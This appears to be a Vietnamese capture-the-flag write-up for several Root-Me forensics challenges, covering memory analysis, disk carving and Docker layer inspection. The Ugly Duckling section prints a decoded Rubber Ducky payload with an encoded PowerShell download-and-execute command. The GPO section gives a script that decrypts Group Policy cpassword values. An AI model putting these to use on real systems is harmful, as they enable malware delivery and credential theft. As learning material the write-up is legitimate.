


# Deleted file

Chall đưa cho ta 1 ``usb.image``, ta dùng Autospy để mở nó.

Sau khi mở thì ta sẽ thấy được 1 file .png như này


Mình sẽ export nó ra. Sau đó mình strings thì mình thu được tên của người dùng.


**Password: javier_turcot**


# Command & Control - level 2

Chall đưa cho mình 1 file .dump, ta dùng ``volatility`` để phân tích file dump này.

Trước hết ta cần tìm profile của file này.


Profile của file này là ``Win7SP1x86_23418``.

Ta thấy đề bảo chỉ cần tìm ComputerName của máy thì sẽ thu được password, ta sẽ dùng plugins ``printkey``.

Thường thì ComputerName sẽ ở path `` /REGISTRY/MACHINE/SYSTEM/ControlSet001/Control/ComputerName``


Thế nên ta sẽ chọn những path mà có System nha.

Giờ ta sẽ dùng printkey nha.


Giờ ta sẽ -K đến path đó nha.


Thế là ta thu được hostname của nó.
**Password: WIN-ETSA91RKCFP**

# Docker Layers

Sử dụng ``container-diff`` để có thể trích xuất được lịch sử của file .tar này.

```
 container-diff analyze -t history Docker_layers.tar 

-----History-----

Analysis for Docker_layers.tar:
-/bin/sh -c #(nop) ADD file:d2abf27fe2e8b0b5f4da68c018560c73e11c53098329246e3e6fe176698ef941 in /
-/bin/sh -c #(nop)  CMD ["bash"]
-/bin/sh -c apt update -y
-/bin/sh -c apt install -y curl openssl
-/bin/sh -c #(nop) COPY file:2ca89eb39686ffcc3d2d87bbc9293559252cff471f80c2ed5d024b214f9a6fa3 in /
-/bin/sh -c echo -n $(curl -s https://pastebin.com/raw/P9Nkw866) | openssl enc -aes-256-cbc -iter 10 -pass pass:$(cat /pass.txt) -out flag.enc
-/bin/sh -c rm /pass.txt
```

Ta thấy rằng, ở dòng này ``-/bin/sh -c echo -n $(curl -s https://pastebin.com/raw/P9Nkw866) | openssl enc -aes-256-cbc -iter 10 -pass pass:$(cat /pass.txt) -out flag.enc``, ta thấy rằng là sẽ echo data từ đường link kia, sau đó sẽ mã hóa AES CBC 256 với pass được lấy trong file ``pass.txt``, rồi output sẽ được ghi vào flag.enc.

Giờ mình sẽ unar file .tar này, sau đó mình sẽ unar tiếp các file .tar tiếp thì có thu được ``pass.txt`` và ``flag.enc``.

Giờ mình sẽ dùng openssl để decrypt lại flag.txt
```
openssl enc -aes-256-cbc -iter 10 -d -in flag.enc -out flag.txt
```


Giờ thì mình sẽ cat flag.txt thôi nào.

**Password: Well_D0ne_D0ckER_L@y3rs_Inspect0R**

# Find The Cat

Ban đầu thử mở file này bằng Autospy thì mình chả tìm được dấu vết gì có ích, thế nên mình đã đọc writeup bài này.

Chall đưa cho ta 1 file DOS/MBR, sau khi mình tìm hiểu thì MBR viết tắt cho Master Boot Record, là một khu vực khởi động đặc biệt ở giai đoạn đầu của các thiết bị lưu trữ dung lượng lớn trên máy tính được phân vùng như đĩa cố định hoặc ổ đĩa nhằm mục đích sử dụng với các hệ thống tương thích với PC IBM và hơn thế nữa.


Mình sẽ dùng foremost để recover lại headers, footers và internal data structures.

Sau khi foremost xong, mình sẽ thu được các folder png, pdf, ... Mình mở file ảnh đầu trong png thì mình thấy được hình con mèo. Mình thử dùng các tool thì cũng không thu được kết quả gì.


Mình còn thấy 2 file zip, mình unzip thôi nào.

Sau đó mình thấy hình con mèo tương tự trong file zip đầu tiên.


Mình exiftool thì thu được tọa độ như sau

```
exiftool 1000000000000CC000000990038D2A62.jpg 
ExifTool Version Number         : 12.67
File Name                       : 1000000000000CC000000990038D2A62.jpg
Directory                       : .
File Size                       : 2.3 MB
File Modification Date/Time     : 2013:07:22 21:25:22+07:00
File Access Date/Time           : 2023:12:02 17:07:14+07:00
File Inode Change Date/Time     : 2023:12:02 17:06:01+07:00
File Permissions                : -rwxrwxrwx
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Make                            : Apple
Camera Model Name               : iPhone 4S
Orientation                     : Horizontal (normal)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Software                        : 6.1.2
Modify Date                     : 2013:03:11 11:47:07
Y Cb Cr Positioning             : Centered
Exposure Time                   : 1/20
F Number                        : 2.4
Exposure Program                : Program AE
ISO                             : 160
Exif Version                    : 0221
Date/Time Original              : 2013:03:11 11:47:07
Create Date                     : 2013:03:11 11:47:07
Components Configuration        : Y, Cb, Cr, -
Shutter Speed Value             : 1/20
Aperture Value                  : 2.4
Brightness Value                : 1.477742947
Metering Mode                   : Multi-segment
Flash                           : Off, Did not fire
Focal Length                    : 4.3 mm
Subject Area                    : 1631 1223 881 881
Flashpix Version                : 0100
Color Space                     : sRGB
Exif Image Width                : 3264
Exif Image Height               : 2448
Sensing Method                  : One-chip color area
Exposure Mode                   : Auto
White Balance                   : Auto
Focal Length In 35mm Format     : 35 mm
Scene Capture Type              : Standard
GPS Latitude Ref                : North
GPS Longitude Ref               : East
GPS Altitude Ref                : Above Sea Level
GPS Time Stamp                  : 07:46:50.85
GPS Img Direction Ref           : True North
GPS Img Direction               : 247.3508772
Compression                     : JPEG (old-style)
Thumbnail Offset                : 902
Thumbnail Length                : 8207
Image Width                     : 3264
Image Height                    : 2448
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Aperture                        : 2.4
Image Size                      : 3264x2448
Megapixels                      : 8.0
Scale Factor To 35 mm Equivalent: 8.2
Shutter Speed                   : 1/20
Thumbnail Image                 : (Binary data 8207 bytes, use -b option to extract)
GPS Altitude                    : 16.7 m Above Sea Level
GPS Latitude                    : 47 deg 36' 16.15" N
GPS Longitude                   : 7 deg 24' 52.48" E
Circle Of Confusion             : 0.004 mm
Field Of View                   : 54.4 deg
Focal Length                    : 4.3 mm (35 mm equivalent: 35.0 mm)
GPS Position                    : 47 deg 36' 16.15" N, 7 deg 24' 52.48" E
Hyperfocal Distance             : 2.08 m
Light Value                     : 6.2
```

Mình lên Google Map để lấy tên thành phố thôi.


**Password: helfrantzkirch**

# Command & Control 3

Mình imageinfo thì thu được profile là ``Win7SP1x86_23418``

Mình thử pstree để coi có những tiến trình nào nha.

```
Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0x892ac2b8:wininit.exe                               456    396      3     77 2013-01-12 16:38:14 UTC+0000
. 0x896294c0:services.exe                             560    456      6    205 2013-01-12 16:38:16 UTC+0000
.. 0x89805420:svchost.exe                             832    560     19    435 2013-01-12 16:38:23 UTC+0000
... 0x87c90d40:audiodg.exe                           1720    832      5    117 2013-01-12 16:58:11 UTC+0000
.. 0x89852918:svchost.exe                             904    560     17    409 2013-01-12 16:38:24 UTC+0000
... 0x87ad44d0:dwm.exe                               2496    904      5     77 2013-01-12 16:40:25 UTC+0000
.. 0x898b2790:svchost.exe                            1172    560     15    475 2013-01-12 16:38:27 UTC+0000
.. 0x89f3d2c0:svchost.exe                            3352    560      9    141 2013-01-12 16:40:58 UTC+0000
.. 0x898fbb18:SearchIndexer.                         2900    560     13    636 2013-01-12 16:40:38 UTC+0000
.. 0x8986b030:svchost.exe                             928    560     26    869 2013-01-12 16:38:24 UTC+0000
.. 0x8a1d84e0:vmtoolsd.exe                           1968    560      6    220 2013-01-12 16:39:14 UTC+0000
.. 0x8962f030:svchost.exe                             692    560     10    353 2013-01-12 16:38:21 UTC+0000
.. 0x898911a8:svchost.exe                            1084    560     10    257 2013-01-12 16:38:26 UTC+0000
.. 0x898a7868:AvastSvc.exe                           1220    560     66   1180 2013-01-12 16:38:28 UTC+0000
.. 0x89f1d3e8:svchost.exe                            3624    560     14    348 2013-01-12 16:41:22 UTC+0000
.. 0x9542a030:TPAutoConnSvc.                         1612    560      9    135 2013-01-12 16:39:23 UTC+0000
... 0x87ae2880:TPAutoConnect.                        2568   1612      5    146 2013-01-12 16:40:28 UTC+0000
.. 0x88cded40:sppsvc.exe                             1872    560      4    143 2013-01-12 16:39:02 UTC+0000
.. 0x8a102748:svchost.exe                            1748    560     18    310 2013-01-12 16:38:58 UTC+0000
.. 0x8a0f9c40:spoolsv.exe                            1712    560     14    338 2013-01-12 16:38:58 UTC+0000
.. 0x9541c7e0:wlms.exe                                336    560      4     45 2013-01-12 16:39:21 UTC+0000
.. 0x8a1f5030:VMUpgradeHelpe                          448    560      4     89 2013-01-12 16:39:21 UTC+0000
... 0x892ced40:winlogon.exe                           500    448      3    111 2013-01-12 16:38:14 UTC+0000
... 0x88d03a00:csrss.exe                              468    448     10    471 2013-01-12 16:38:14 UTC+0000
.... 0x87c595b0:conhost.exe                          3228    468      2     54 2013-01-12 16:44:50 UTC+0000
.... 0x87a9c288:conhost.exe                          2600    468      1     35 2013-01-12 16:40:28 UTC+0000
.... 0x954826b0:conhost.exe                          2168    468      2     49 2013-01-12 16:55:50 UTC+0000
.. 0x87bd35b8:wmpnetwk.exe                           3176    560      9    240 2013-01-12 16:40:48 UTC+0000
.. 0x87ac0620:taskhost.exe                           2352    560      8    149 2013-01-12 16:40:24 UTC+0000
.. 0x897b5c20:svchost.exe                             764    560      7    263 2013-01-12 16:38:23 UTC+0000
. 0x8962f7e8:lsm.exe                                  584    456     10    142 2013-01-12 16:38:16 UTC+0000
. 0x896427b8:lsass.exe                                576    456      6    566 2013-01-12 16:38:16 UTC+0000
 0x8929fd40:csrss.exe                                 404    396      9    469 2013-01-12 16:38:14 UTC+0000
 0x87978b78:System                                      4      0    103   3257 2013-01-12 16:38:09 UTC+0000
. 0x88c3ed40:smss.exe                                 308      4      2     29 2013-01-12 16:38:09 UTC+0000
 0x87ac6030:explorer.exe                             2548   2484     24    766 2013-01-12 16:40:27 UTC+0000
. 0x87b6b030:iexplore.exe                            2772   2548      2     74 2013-01-12 16:40:34 UTC+0000
.. 0x89898030:cmd.exe                                1616   2772      2    101 2013-01-12 16:55:49 UTC+0000
. 0x95495c18:taskmgr.exe                             1232   2548      6    116 2013-01-12 16:42:29 UTC+0000
. 0x87bf7030:cmd.exe                                 3152   2548      1     23 2013-01-12 16:44:50 UTC+0000
.. 0x87cbfd40:winpmem-1.3.1.                         3144   3152      1     23 2013-01-12 16:59:17 UTC+0000
. 0x898fe8c0:StikyNot.exe                            2744   2548      8    135 2013-01-12 16:40:32 UTC+0000
. 0x87b784b0:AvastUI.exe                             2720   2548     14    220 2013-01-12 16:40:31 UTC+0000
. 0x87b82438:VMwareTray.exe                          2660   2548      5     80 2013-01-12 16:40:29 UTC+0000
. 0x87c6a2a0:swriter.exe                             3452   2548      1     19 2013-01-12 16:41:01 UTC+0000
.. 0x87ba4030:soffice.exe                            3512   3452      1     28 2013-01-12 16:41:03 UTC+0000
... 0x87b8ca58:soffice.bin                           3564   3512     12    400 2013-01-12 16:41:05 UTC+0000
. 0x9549f678:iexplore.exe                            1136   2548     18    454 2013-01-12 16:57:44 UTC+0000
.. 0x87d4d338:iexplore.exe                           3044   1136     37    937 2013-01-12 16:57:46 UTC+0000
. 0x87aa9220:VMwareUser.exe                          2676   2548      8    190 2013-01-12 16:40:30 UTC+0000
 0x95483d18:soffice.bin                              3556   3544      0 ------ 2013-01-12 16:41:05 UTC+0000
```

Nhìn sơ qua thì thấy cũng bình thường, thế nhưng mình nhìn kỹ thì 
```
 0x87ac6030:explorer.exe                             2548   2484     24    766 2013-01-12 16:40:27 UTC+0000
. 0x87b6b030:iexplore.exe                            2772   2548      2     74 2013-01-12 16:40:34 UTC+0000
.. 0x89898030:cmd.exe                                1616   2772      2    101 2013-01-12 16:55:49 UTC+0000
```

Theo mình tìm hiểu thì ``iexplore.exe`` là phần mềm của Windows Internet Explorer của Microsoft. Path của nó sẽ mặc định là như thế này.



Mà cái có PID = 2772 lại có 1 tiến trình con là cmd.exe, thường kẻ tấn công sẽ giả mạo 1 tiến trình để có thể chạy lệnh nhằm lấy shell và chạy một tiến trình ngầm khác. Giờ mình sẽ dùng ``cmdline`` để coi path của 2 ``iexplorer.exe`` như thế nào.

    

Cái có PID == 1136 thì đúng là path default rồi, thế cái PID == 2772 sẽ là malware.


Giờ ta đã có path là ``C:\Users\John Doe\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\iexplore.exe``.

Giờ ta hash nó thôi nào.
```
echo -n "C:\Users\John Doe\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\iexplore.exe" | md5sum
49979149632639432397b3a1df8cb43d
```

**Password: 49979149632639432397b3a1df8cb43d**

# Command & Control 5

Trước hết, ta nhìn ở phần mô tả, ta thấy rằng có đề cập tới password, ngoài ra còn là ``john password`` nữa, thế nên mình nghĩ ngay đến plugin ``hashdump``.

Mình sẽ thử coi sao nha.


Giờ mình lên [tools này](https://hashes.com/en/decrypt/hash) để thử với mã hash ``b9f917853e3dbf6e6831ecce60725930`` này nha.


Mình thu được password là ``passw0rd``

**Password: passw0rd**


# Command & Control 4

Liên quan tới IP, ta thử dùng plugin ``netscan``, thế nhưng mà mình không thu được gì có ích cả.


Đọc kỹ lại đề bài làm mình nhớ tới malware ban nãy, mà ban nãy malware ``iexplorer.exe``. Thế nên mình sẽ kết xuất thử file .exe này coi xem có gì nha.


Mở bằng IDA thì ta thấy rằng là malware này sẽ sử dụng ``cmd.exe``, thế nên là mình sẽ kết xuất tiếp ``cmd.exe`` với PID là 1616.


Mở IDA tiếp thì mình thấy ``cmd.exe`` này còn chạy 1 file .exe nữa có tên là ``relay.exe``


Giờ mình sẽ sử dụng strings kết hợp với grep để coi có gì nha.



Ồ không phải là relay.exe mà là ``tcprelay.exe``. Thế thì chắc chắn là trong bộ nhớ sẽ có gì đó liên quan tới ``tcprelay.exe``.


Giờ thì mình đã thấy có một dòng lệnh chạy file ``tcprelay.exe`` với địa chỉ IP source là ``192.168.0.22:3389`` với máy chủ là ``yoursecret.co.tv:443``. Có được địa chỉ IP rồi, submit thuii

**Password: 192.168.0.22:3389**

# Active Directory - GPO

Mở wireshark ra, ta thấy rằng có protocol SMB, thế nên là mình sẽ export các file của SMB.


Ta thu được 1 file .xml như sau:

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Helpdesk" image="2" changed="2015-05-06 05:50:08" uid="{43F9FF29-C120-48B6-8333-9402C927BE09}"><Properties action="U" newName="" fullName="" description="" cpassword="PsmtscOuXqUMW6KQzJR8RWxCuVNmBvRaDElCKH+FU+w" changeLogon="1" noChange="0" neverExpires="0" acctDisabled="0" userName="Helpdesk"/></User><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrateur" image="2" changed="2015-05-05 14:19:53" uid="{5E34317F-8726-4F7C-BF8B-91B2E52FB3F7}" userContext="0" removePolicy="0"><Properties action="U" newName="" fullName="Admin Local" description="" cpassword="LjFWQMzS3GWDeav7+0Q0oSoOM43VwD30YZDVaItj8e0" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" subAuthority="" userName="Administrateur"/></User>
</Groups>

```

Nhìn thì ta thấy rằng có 2 cpassword đó là ``PsmtscOuXqUMW6KQzJR8RWxCuVNmBvRaDElCKH+FU+w`` và ``LjFWQMzS3GWDeav7+0Q0oSoOM43VwD30YZDVaItj8e0`` và cái thứ 2 là của admin.


Với đề bài có từ ``Group Policy Preferences``, mình thử tra ``Group Policy Preferences encryption`` thì tìm được 1 [đường link](https://www.ctfnote.com/red-teaming/active-directory-ad/initial-compromise/gpp-cpassword) giống tình trạng của mình hiện tại.


Mình tìm hiểu thêm thì đây là mã hóa AES_CBC, với key như sau:


Giờ mình có 2 cách:
-   Cách 1: Dùng gpp-decrypt của kali linux
    Mình sẽ cài [ở đây](https://www.kali.org/tools/gpp-decrypt/)
    Sau đó sử dụng và lấy password thôi
    

-   Cách 2: Sử dụng python
    Mình sẽ có đoạn code sau đây
```
import sys
import base64
from Crypto.Cipher import AES

if len(sys.argv) != 2:
    print("Incorrect amount of arguments.")
    print("How to use:")
    print("$ python {} LjFWQMzS3GWDeav7+0Q0oSoOM43VwD30YZDVaItj8e0".format(sys.argv[0]))
    sys.exit()

cpassword = sys.argv[1]

while len(cpassword) % 4 > 0:
    cpassword += "="

decoded_password = base64.b64decode(cpassword)

# This is a Microsoft hardcoded key used to decrypt the GPO hash.
key = b'\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b'

decryption_suite = AES.new(key, AES.MODE_CBC, b'\00'*16)
plain_text = decryption_suite.decrypt(decoded_password)
print("Password is: {}".format(plain_text.strip()))
password_list = (plain_text.decode().split('\x00'))
print(''.join(password_list))
```
    Cách sử dụng là: ``python3 a.py <cpassword>``
    

**Password: TuM@sTrouv3**

# Ugly Duckling

Chall đưa cho ta 1 file .bin, mình không biết là như nào nhưng mà đọc wu thì họ bảo là dùng [tool](https://ducktoolkit.com/decoder/) này

Sau khi decode xong, ta thu được đoạn code như này
```
DELAY
iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpgENTER
DELAY
DELAY
ENTER
DELAY
DELAY
%USERPROFILE%\Documents\796f75277665206265656e2054524f4c4c4544.jpgDELAY
ENTER
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
TAB
DELAY
ENTER
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
ENTER
DELAY
DOWNARROW
DELAY
DOWNARROW
DELAY
ENTER
DELAY
powershell Start-Process powershell -Verb runAsDELAY
PowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoA
exit
```

Có 1 đường link, mình ấn zô thì có cái ảnh zô tri này


Mình nhìn kỹ thì có 2 đoạn base64, mình dùng code để decode thì được output như sau
```
from string import printable
from base64 import*

data = "aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AA=="

data = b64decode(data)
lst = []
for i in data:
    i = chr(i)
    if i in printable[:-6]:
        lst.append(i)
print("".join(lst))
```

```
iex(New-ObjectSystem.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');
```

Click vào link thì tải được 1 file .exe, mình dùng IDA để mở thì thu được ``Flag: RubberDuckyFail3D``


**Password: RubberDuckyFail3D**